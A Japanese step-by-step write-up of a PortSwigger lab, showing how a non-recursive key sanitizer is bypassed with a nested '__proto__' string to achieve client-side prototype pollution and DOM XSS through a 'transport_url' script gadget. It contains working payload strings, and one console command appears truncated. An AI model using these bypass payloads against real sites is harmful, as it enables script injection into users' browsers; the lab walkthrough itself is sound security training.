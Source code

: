 # 欠陥のあるサニタイズによるクライアント側のプロトタイプ汚染

次のハッキングラボを実施します  
https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization  
このラボは、クライアント側のプロトタイプ汚染による DOM XSS に対して脆弱です。

- 1. BurpSuite を起動して、proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします

* 3. ハッキングラボの URL に/?**proto**.foo=bar を付加します
* 4. F12 キー押下し、DevTool を起動します
* 5. Console で次のスクリプトを入力し、foo プロパティがないことを確認

```
Object.prototype
```

- 6. ソースタブに移動しスクリプトを確認します。
     **proto**がサニタイズされてます。

```
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

- 7. ただし、再帰的に行っていないので、URL に次の文字列を付加してみます

```
/?__pro__proto__to__[foo]=bar
```

- 8. Console で次のスクリプトを入力し、foo プロパティがあることを確認

```
Object.protot
```

- 9. 次のコードより transport_url プロパティが使用できることが分かります。

```js
async function searchLogger() {
  let config = { params: deparam(new URL(location).searchParams.toString()) };
  if (config.transport_url) {
    let script = document.createElement("script");
    script.src = config.transport_url;
    document.body.appendChild(script);
  }
  if (config.params && config.params.search) {
    await logQuery("/logger", config.params);
  }
}
```

- 10. URL に次の文字列を付加するとアラート表示されます

```
/?__pro__proto__to__[transport_url]=data:,alert(1);
```
